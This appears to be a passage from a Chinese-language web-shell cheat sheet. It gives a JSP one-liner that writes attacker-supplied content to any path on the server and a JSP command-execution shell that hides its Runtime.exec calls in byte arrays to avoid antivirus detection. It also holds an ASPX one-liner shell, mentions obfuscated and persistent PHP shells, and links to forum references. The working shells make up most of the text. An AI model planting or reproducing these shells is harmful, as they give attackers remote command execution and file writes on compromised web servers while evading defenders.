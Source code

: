 >
> ```
> <%if(request.getParameter("f")!=null)(newjava.io.FileOutputStream (application.getRealPath("\\")+request.getParameter("f"))).write (request.getParameter("t").getBytes());%>
> ```
>
> JSP一句话免杀（ASCLL编码）
>
> ```
> <%@ page contentType="text/html;charset=UTF-8"  language="java" %>
> <%
>     if(request.getParameter("cmd")!=null){
>         Class rt = Class.forName(new String(new byte[] { 106, 97, 118, 97, 46, 108, 97, 110, 103, 46, 82, 117, 110, 116, 105, 109, 101 }));
>         Process e = (Process) rt.getMethod(new String(new byte[] { 101, 120, 101, 99 }), String.class).invoke(rt.getMethod(new String(new byte[] { 103, 101, 116, 82, 117, 110, 116, 105, 109, 101 })).invoke(null), request.getParameter("cmd") );
>         java.io.InputStream in = e.getInputStream();
>         int a = -1;byte[] b = new byte[2048];out.print("<pre>");
>         while((a=in.read(b))!=-1){ out.println(new String(b)); }out.print("</pre>");
>     }
> %>
> ```
>
>  ASPX一句话 
>
> ```
> <script language="C#"runat="server">WebAdmin2Y.x.y a=new WebAdmin2Y.x.y("add6bb58e139be10")</script>
> ```

### 其它攻击代码

> 异或取反等操作写shell的php脚本、混淆木马、不死马。

## 更多参考

https://bbs.ichunqiu.com/thread-41672-1-1.html?from=sec

https://www.freebuf.com/articles/web/253698.html

https://www.freebuf.com/articles/web/179954.html